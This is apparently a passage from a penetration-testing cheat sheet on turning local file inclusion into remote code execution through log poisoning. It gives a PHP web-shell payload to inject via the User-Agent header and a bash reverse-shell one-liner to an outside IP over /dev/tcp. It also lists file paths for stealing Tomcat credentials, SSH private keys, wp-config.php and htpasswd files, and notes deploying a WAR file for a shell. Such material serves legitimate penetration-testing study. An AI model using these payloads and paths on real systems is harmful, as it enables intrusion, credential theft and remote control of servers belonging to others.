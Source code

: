         ```bash
        cut -d ":" -f1 sshUsers2
        ```
        
    - [LFI to RCE Tool](https://github.com/takabaya-shi/LFI2RCE) (https://github.com/takabaya-shi/LFI2RCE)

## **Log Poisoning**

1. Attempt to read the access log file:
    - Linux: **`/var/log/apache2/access.log`**
    - Windows: **`C:\xampp\apache\logs\access.log`**
2. If successful, log poisoning may be possible.
3. Add the following payload in the User-Agent field using Burp Suite:
    
    ```php
    <?php echo system($_GET['cmd']); ?>
    ```
    
4. Achieve Remote Code Execution (RCE) via **`&cmd=`**:
    
    ```bash
    bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
    ```
    

**Note:** Not always can LFI be used directly for obtaining a reverse shell using log poisoning or via RFI.

If the server is running on Tomcat, attempt to traverse to **`tomcat-users.xml`** to obtain credentials and then login to **`/manager/html`** to deploy a war file for shell.

### **Tomcat Paths**

- **`/etc/tomcat7`**
- **`/usr/share/tomcat7`**
- **`/usr/share/tomcat7-root`**
- **`/var/lib/tomcat7/conf`**
- **`/tmp/tomcat7-tomcat7-tmp`**

### **Attempt to Obtain SSH Private Keys**

- **`/home/user/.ssh/id_rsa`**
- **`/home/user/.ssh/id_ecdsa`**

```bash
chmod 600 id_rsa
ssh -i id_rsa user@ip
```

### **Windows Log Poisoning Paths**

- **`C:\Program%20Files\FileZilla%20Server\FileZilla%20Server.xml`**
- **`..\..\..\..\..\..\..\..\xampp\security\webdav.htpasswd`**
- **`..\..\..\..\..\..\..\..\xampp\htdocs\blog\wp-config.php`**
